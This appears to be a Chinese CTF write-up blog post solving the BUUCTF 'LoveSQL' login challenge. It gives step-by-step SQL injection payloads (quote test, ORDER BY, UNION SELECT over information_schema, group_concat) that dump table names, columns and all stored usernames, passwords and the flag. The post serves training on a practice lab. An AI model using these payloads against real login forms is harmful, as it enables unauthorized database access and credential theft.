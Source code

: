 ```yaml
---
layout: post
title: "[极客大挑战 2019]LoveSQL"
date:   2024-9-29
tags: [SQL注入, CTF, WEB]
comments: true
author: MK-KM1542
---
```



一个登录界面
![LoveSQL.png](https://i-blog.csdnimg.cn/blog_migrate/c40c0f04ba36a31811accce92b21cd6a.png)
输入用户名和密码，url 变成

```http
http://636437fd-3fef-4b6a-b088-41fa2c25c1a2.node5.buuoj.cn:81/check.php?username=1&password=1
```

- `636437fd-3fef-4b6a-b088-41fa2c25c1a2.node5.buuoj.cn`是服务器的 IP 地址
- `81`是服务器的端口号
- `check.php`是服务器上的一个 PHP 脚本
- `username`和`password`是表单提交的用户名和密码
  注入点在于`username`和`password`参数
  以下注入在`username`参数上进行，`password=1`

## 确定有 SQL 注入漏洞

输入单引号`'`，返回结果

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1'' at line 1
```

存在 SQL 注入漏洞，可以尝试使用`UNION SELECT`命令进行注入

## order by 确认查询字段数

```sql
# payload
1' order by 4#
# 返回结果：Unknown column '4' in 'order clause'
1' order by 3#
# 返回结果：NO,Wrong username password！！！
```

说明有**3 个字段**

## 寻找注入点

```sql
# payload
1' union select 1,2,3#
# 返回结果：
Login Success!
Hello 2！
Your password is '3'
```

2、3 是注入点，尝试使用`union select`命令进行注入

## `union select`命令进行注入

### 查数据库名、表名

```sql
payload: 1' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database()#
# 返回结果：
Login Success!
Hello geek！
Your password is 'geekuser,l0ve1ysq1'
```

- 数据库名称`geek`
- 两个表名`geekuser,l0ve1ysq1`

在 payload 中

- `database()`函数返回当前数据库名
- `where table_schema=database()`,这样就不用指定具体的数据库名，之前还多查一次数据库名记下来，现在不需要了
- `group_concat(table_name)`函数一次返回所有表名(用 concat 只返回第一个表名，limit 还需要一次次查询，麻烦)

### 查列名

```sql
payload:
1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1'#
# 返回结果：
Login Success!
Hello 2！
Your password is 'id,username,password'
```

有 3 列`id,username,password`

### 查数据

```sql
payload:
1' union select 1,2,group_concat(id,username,password) from l0ve1ysq1#
# 返回结果：
Login Success!
Hello 2！
Your password is '1cl4ywo_tai_nan_le,2glzjinglzjin_wants_a_girlfriend,3Z4cHAr7zCrbiao_ge_dddd_hm,40xC4m3llinux_chuang_shi_ren,5Ayraina_rua_rain,6Akkoyan_shi_fu_de_mao_bo_he,7fouc5cl4y,8fouc5di_2_kuai_fu_ji,9fouc5di_3_kuai_fu_ji,10fouc5di_4_kuai_fu_ji,11fouc5di_5_kuai_fu_ji,12fouc5di_6_kuai_fu_ji,13fouc5di_7_kuai_fu_ji,14fouc5di_8_kuai_fu_ji,15leixiaoSyc_san_da_hacker,16flagflag{d69b64fd-6051-4bc8-94f9-e3bb31f48a58}'
```

输出了`l0ve1ysq1`表中`id,username,password`三列的所有数据，最后一条就是 flag

## 总结

1. `database()、user()、version()`这类函数可以直接放入命令执行
   - `database()`可以替代数据库名，不需要先把数据库名找出来就能用,
   - 比如过滤条件`where table_schema=database()`
2. 在只能一次一次输出数据的时候
   - `group_concat()`函数可以一次返回所有数据
   - `group_concat(table_name)`可以返回所有表名
   - `group_concat(column_name)`可以返回所有列名
   - `group_concat(id,username,password)`可以返回三列的所有数据
